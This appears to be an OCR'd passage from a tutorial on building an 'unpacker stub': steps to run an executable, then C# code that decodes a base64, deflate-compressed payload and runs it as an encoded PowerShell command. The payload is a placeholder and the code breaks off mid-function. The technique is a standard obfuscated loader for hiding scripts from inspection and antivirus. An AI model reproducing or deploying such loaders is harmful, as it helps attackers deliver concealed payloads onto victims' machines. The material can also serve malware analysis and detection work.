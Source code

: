 - Open Command Prompt with administrator rights.
- Navigate to the directory containing the compiled executable.
- Run the executable:

```
UnpackerStub.exe
```

This should execute the unpacked payload (in this example, a PowerShell script showing a message box).

# Example Code
Here's a conceptual example in C# for the unpacker stub:

```
using System;
using System.Diagnostics;
using System.IO;
using System.IO.Compression;
using System.Runtime.InteropServices;
using System.Text;

class Program
{
    static void Main(string[] args)
    {
        // Base64 encoded compressed payload
        string encodedCompressedPayload = "ENCODED_COMPRESSED_PAYLOAD_HERE";

        // Decode the base64 encoded compressed payload
        byte[] compressedPayload = Convert.FromBase64String(encodedCompressedPayload);

        // Decompress the payload
        byte[] payload = Decompress(compressedPayload);

        // Convert the payload to a string (assuming it's a PowerShell script for this example)
        string script = Encoding.Unicode.GetString(payload);

        // Execute the script using PowerShell
        ExecutePowerShellScript(script);
    }

    static byte[] Decompress(byte[] data)
    {
        using (var compressedStream = new MemoryStream(data))
        using (var decompressedStream = new MemoryStream())
        {
            using (var deflateStream = new DeflateStream(compressedStream, CompressionMode.Decompress))
            {
                deflateStream.CopyTo(decompressedStream);
            }
            return decompressedStream.ToArray();
        }
    }

    static void ExecutePowerShellScript(string script)
    {
        ProcessStartInfo psi = new ProcessStartInfo();
        psi.FileName = "powershell.exe";
        psi.Arguments = $"-EncodedCommand {Convert.ToBase64String(Encoding.Unicode.GetBytes(script))}";
        psi.RedirectStandardOutput = true;
        psi.UseShellExecute = false;
```